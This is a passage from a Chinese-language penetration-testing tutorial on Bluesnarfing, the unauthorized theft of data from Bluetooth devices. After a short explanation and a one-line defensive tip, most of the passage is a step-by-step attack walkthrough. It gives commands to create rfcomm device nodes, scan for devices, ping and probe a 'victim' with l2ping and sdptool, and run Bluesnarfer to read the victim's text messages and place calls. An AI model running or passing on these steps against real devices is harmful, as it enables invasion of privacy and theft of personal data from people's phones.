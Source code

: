 Bluesnarfing 是一种有趣且非常强大的攻击，可用于攻击易受攻击的设备。简而言之，Bluesnarfing 是指通过蓝牙连接（通常在手机、笔记本电脑和类似类型的设备之间）对设备进行未经授权的访问。此攻击提供对目标上各种类型数据和资源的访问，并且在某些手机上用户可以复制图片和私人视频。

这种类型的攻击针对任何连接已打开且扫描方可发现的支持蓝牙功能的设备。关闭蓝牙以及防止设备被发现是解决此问题的一种方法。

对于要成为目标的设备，攻击者必须通过暴力攻击猜出设备的 MAC 地址。与暴力攻击一样，猜测正确的 MAC 地址只是时间问题。

蓝牙使用 48 位唯一 MAC 地址，其中前 24 位是制造商通用的。剩下的 24 位大约有 1680 万个可能的组合，平均需要 840 万次暴力猜测。

# 准备

要开始工作，您需要准备好以下各项：

*   能够进入监控模式的无线网卡
*   卡利 Linux

这里列出的项目是基本要求，如果需要，您可以轻松使用更多（或不同）组件。例如，如果您想要增强范围，您可以使用基于 USB 的无线网卡，该网卡可以连接外部天线，从而获得更好的接收效果。

# 怎么做。。。

1.  既然安装了 Bluesnarfer，请配置`rfcomm`：

```
 mkdir -p /dev/bluetooth/rfcomm
 mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0
 mknod --mode=666 /dev/rfcomm0 c 216 0
 hciconfig -i hci0 up
 hciconfig hci0
```

2.  现在要扫描潜在的漏洞：

```
 hcitool scan hci0 
```

3.  Ping 受害者以查看他是否在现场：

```
 l2ping  < victim mac addr> 
```

4.  浏览受害者的`rfcomm`频道以连接：

```
 sdptool browse --tree --l2cap < mac addr > 
```

5.  现在 Bluesnarfer 已经成立。现在，您可以访问受害者手机查看短信、拨打电话等：

```
 Bluesnarfer -r 1-100 -C 7 -b < mac addr > 
```